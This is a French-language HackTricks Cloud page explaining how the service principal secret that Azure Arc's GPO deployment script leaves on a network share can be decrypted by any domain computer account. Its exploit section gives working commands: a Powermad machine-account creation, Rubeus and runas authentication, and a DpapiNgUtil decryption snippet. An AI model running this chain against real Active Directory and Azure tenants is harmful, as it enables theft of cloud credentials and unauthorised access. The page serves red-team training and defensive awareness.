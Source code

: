 # Az - Arc script de déploiement GPO vulnérable

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Identification des problèmes

Azure Arc permet l'intégration de nouveaux serveurs internes (serveurs de domaine joints) dans Azure Arc en utilisant la méthode de l'objet de stratégie de groupe. Pour faciliter cela, Microsoft fournit un kit d'outils de déploiement nécessaire pour initier la procédure d'intégration. Dans le fichier ArcEnableServerGroupPolicy.zip, les scripts suivants peuvent être trouvés : DeployGPO.ps1, EnableAzureArc.ps1 et AzureArcDeployment.psm1.

Lors de son exécution, le script DeployGPO.ps1 effectue les actions suivantes :

1. Crée le GPO d'intégration des serveurs Azure Arc au sein du domaine local.
2. Copie le script d'intégration EnableAzureArc.ps1 dans le partage réseau désigné créé pour le processus d'intégration, qui contient également le package d'installation Windows.

Lors de l'exécution de ce script, les administrateurs système doivent fournir deux paramètres principaux : **ServicePrincipalId** et **ServicePrincipalClientSecret**. De plus, il nécessite d'autres paramètres tels que le domaine, le FQDN du serveur hébergeant le partage et le nom du partage. D'autres détails tels que l'ID de locataire, le groupe de ressources et d'autres informations nécessaires doivent également être fournis au script.

Un secret chiffré est généré dans le répertoire AzureArcDeploy sur le partage spécifié en utilisant le chiffrement DPAPI-NG. Le secret chiffré est stocké dans un fichier nommé encryptedServicePrincipalSecret. Des preuves de cela peuvent être trouvées dans le script DeployGPO.ps1, où le chiffrement est effectué en appelant ProtectBase64 avec $descriptor et $ServicePrincipalSecret comme entrées. Le descripteur se compose des SID des groupes Domain Computer et Domain Controller, garantissant que le ServicePrincipalSecret ne peut être déchiffré que par les groupes de sécurité Domain Controllers et Domain Computers, comme noté dans les commentaires du script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Nous avons les conditions suivantes :

1. Nous avons réussi à pénétrer le réseau interne.
2. Nous avons la capacité de créer ou de prendre le contrôle d'un compte d'ordinateur au sein d'Active Directory.
3. Nous avons découvert un partage réseau contenant le répertoire AzureArcDeploy.

Il existe plusieurs méthodes pour obtenir un compte machine dans un environnement AD. L'une des plus courantes consiste à exploiter le quota de compte machine. Une autre méthode implique de compromettre un compte machine via des ACL vulnérables ou diverses autres mauvaises configurations.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Une fois qu'un compte machine est obtenu, il est possible de s'authentifier en utilisant ce compte. Nous pouvons soit utiliser la commande runas.exe avec le drapeau netonly, soit utiliser pass-the-ticket avec Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
En ayant le TGT pour notre compte d'ordinateur stocké en mémoire, nous pouvons utiliser le script suivant pour déchiffrer le secret du principal de service.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativement, nous pouvons utiliser [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

À ce stade, nous pouvons rassembler les informations restantes nécessaires pour se connecter à Azure à partir du fichier ArcInfo.json, qui est stocké sur le même partage réseau que le fichier encryptedServicePrincipalSecret. Ce fichier contient des détails tels que : TenantId, servicePrincipalClientId, ResourceGroup, et plus encore. Avec ces informations, nous pouvons utiliser Azure CLI pour nous authentifier en tant que service principal compromis.

## Références

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
